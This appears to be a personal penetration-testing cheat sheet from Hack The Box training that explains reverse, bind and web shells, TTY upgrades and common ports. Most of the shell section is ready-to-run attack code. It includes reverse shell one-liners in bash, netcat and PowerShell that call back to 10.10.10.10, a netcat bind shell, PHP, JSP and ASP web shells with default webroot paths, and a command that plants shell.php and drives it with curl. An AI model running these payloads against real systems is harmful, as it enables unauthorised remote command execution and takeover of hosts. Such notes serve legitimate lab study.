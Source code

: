 # Shell

There are three main types of shell connections:

1. Reverse Shell : Open a connection back to a listener on our attack box

Open a netcat listener on our attack box :
nc -lvnp 1234

Find our system's IP :
ip a
-> tun0 which is the interface connected to HTB VPN

Execute a payload on the target system which open a bash connection on the specific port we have opened :

(Depends on the targetedOS)

- bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
- powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

https://www.revshells.com/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

Very fragile : if the connection is lost, we have to execute the initial exploit to gain access

2. Bind Shell : Bind to a specific port on the target host

Start a bind shell on the target host :

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

Launch a netcat connection from our attack box :

nc 10.10.10.1 1234

More reliable : if the connection is lost, we can connect back to it and get another connection immediately unless if the bind shell command stops (ex : if the remote host is rebooted)

3. Web Shell : Run commands through web browser

<?php system($_REQUEST["cmd"]); ?>
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
<% eval request("cmd") %>

We need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. 

Web Server -> Default Webroot
Apache  -> /var/www/html/
Nginx   -> /usr/local/nginx/html/
IIS     -> c:\inetpub\wwwroot\
XAMPP   -> C:\xampp\htdocs\

echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

Accessing web shell using cURL :

curl http://SERVER_IP:PORT/shell.php?cmd=id

More stealthy : Bypass any firewall rule because no connections are opened and will still work if the remote host reboot

Less pratical : Web Shell is not interactive as reverse and bind are but we can use a Python script to automate the process of web requests/responses and get a semi-interactive web shell using our terminal.

4. Upgrading TTY

Mapping our terminal TTY with the remote TTY in order to be able to navigate easily from left to right and in the historic.

Use the following commmand in our netcat shell to upgrade the type of our shell : python -c 'import pty; pty.spawn("/bin/bash")'

ctrl+z : background our shell and get back to our local terminal
stty raw -echo
fg : bring back our netcat shell on the foreground

[Enter]
[Enter]
www-data@remotehost$

Get our local TTY variables :
echo $TERM
stty size

Set TTY variables :
export TERM=xterm-256color
stty rows 67 columns 318



# Port

They are software-based and managed by the host operating system. Ports are associated with a specific process or service and allow computers to differentiate between different traffic types (SSH, Web requests, etc.)

2 categories of ports :
- TCP : connection-oriented (connection between client and server before sending data)
-> Server on a listening state
- UDP : connectionless communication model

Common ports : 
https://www.stationx.net/common-ports-cheat-sheet/
https://packetlife.net/media/library/23/common-ports.pdf

# Web Server

https://owasp.org/www-project-top-ten/